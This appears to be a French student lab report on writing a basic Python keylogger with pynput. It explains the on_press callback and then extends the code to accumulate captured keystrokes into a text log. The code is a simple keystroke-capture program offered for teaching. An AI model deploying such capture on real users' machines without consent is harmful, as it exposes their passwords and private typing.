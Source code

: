 > Y a-t-il une utilisation légitime pour ce genre de programme ? Expliquez.

Oui, un keylogger peut avoir des utilisations légitimes lorsqu'il est déployé de manière éthique et avec consentement.

> Quel est le rôle du paramètre `on_press` ?

Nous avons le code suivant:
```python
from pynput import keyboard

def processkeys(key):
    print(f"Touche appuyée : {key}")

with keyboard.Listener(on_press=processkeys) as keyboard_listener:
    keyboard_listener.join()
```

Le paramètre `on_press` désigne la fonction qui sera appelée à chaque fois qu'une touche est pressée. Elle permet de spécifier le traitement à effectuer pour chaque frappe.

Nous pouvons constater que cela fonctionne parfaitement.

![image-20241128084526452](./assets/image-20241128084526452.png)

> Quel est le rôle des instructions avec le `with`?

Ces instructions permettent de démarrer le keylogger. La méthode `keyboard.Listener` initialise l'écoute, et `keyboard_listener.join()` maintient le programme en fonctionnement jusqu'à ce que l'utilisateur fasse un kill explicite du programme.

> Que se passe-t-il lorsque vous tapez des touches sur le clavier ?

Nous pouvons constater que le programme fonctionne correctement, dans la mesure où on lui demande de capturer l'évènement de tape sur le clavier individuellement.

> Quel est le problème d'affichange ? Essayez de l'améliorer.

Le problème principal, outre le fait que chaque touche donne lieu à un saut de ligne, est que certains évènements portent leur nom et non la valeur à laquelle nous nous attendons. Par exemple, des touches comme `<Key.shift>` ou `<Key.cmd>` apparaissent telles quelles dans la sortie.

Nous allons ajouter le code suivant:

```python
log = ""

def processkeys(key):
    global log
    try:
        log += key.char
    except AttributeError:
        if key == keyboard.Key.space:
            log += " "
        elif key == keyboard.Key.enter:
            log += "\n"
        elif key == keyboard.Key.backspace:
            log = log[:-1]
        else:
            log += ""

    print(" -> Final Text: " + log)
```

